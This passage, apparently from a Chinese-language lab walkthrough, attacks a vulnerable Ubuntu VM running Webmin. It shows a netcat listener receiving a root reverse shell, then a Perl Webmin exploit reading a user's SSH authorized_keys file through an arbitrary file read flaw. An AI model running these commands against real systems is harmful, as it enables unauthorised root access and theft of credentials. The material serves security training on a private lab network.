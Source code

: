 -   ```shell
    └─$ nc -nvlp 1234
    listening on [any] 1234 ...
    connect to [192.168.2.128] from (UNKNOWN) [192.168.2.138] 44223
     03:29:28 up  7:24,  2 users,  load average: 1.00, 0.94, 0.61
    USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
    vmware   tty1     -                20:06    2:19   0.03s  0.02s -bash
    vmware   pts/0    192.168.2.128    22:33    6:14m  0.13s  0.03s /bin/bash
    Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686 GNU/Linux
    uid=0(root) gid=0(root)
    
    /usr/sbin/apache: can't access tty; job control turned off
    # whoami
    root
    # ip a
    1: lo: <LOOPBACK,UP,10000> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,10000> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:5e:18:c9 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.138/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:fe5e:18c9/64 scope link 
           valid_lft forever preferred_lft forever
    # sudo -l
    User root may run the following commands on this host:
        (ALL) ALL
    #        
    ```

### 利用任意文件读取漏洞可获得基础shell方式（2）

-   通过读取用户在`home`目录下的`.ssh`文件夹下的`authorized_keys`文件来查看公钥

-   ```shell
    └─$ ./2017.pl 192.168.2.138 10000 /home/vmware/.ssh/authorized_keys 0
    WEBMIN EXPLOIT !!!!! coded by UmZ!
    Comments and Suggestions are welcome at umz32.dll [at] gmail.com
    Vulnerability disclose at securitydot.net
    I am just coding it in perl 'cuz I hate PHP!
    Attacking 192.168.2.138 on port 10000!
    FILENAME:  /home/vmware/.ssh/authorized_keys
    
     FILE CONTENT STARTED
     -----------------------------------
    ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAzASM/LKs+FLB7zfmy14qQJUrsQsEOo9FNkoilHAgvQuiE5Wy9DwYVfLrkkcDB2uubtMzGw9hl3smD/OwUyXc/lNED7MNLS8JvehZbMJv1GkkMHvv1Vfcs6FVnBIfPBz0OqFrEGf+a4JEc/eF2R6nIJDIgnjBVeNcQaIM3NOr1rYPzgDwAH/yWoKfzNv5zeMUkMZ7OVC54AovoSujQC/VRdKzGRhhLQmyFVMH9v19UrLgJB6otLcr3d8/uAB2ypTw+LmuIPe9zqrMwxskdfY4Sth2rl6D3bq6Fwca+pYh++phOyKeDPYkBi3hx6R3b3ETZlNCLJjG7+t7kwFdF02Iuw== vmware@ubuntuvm
    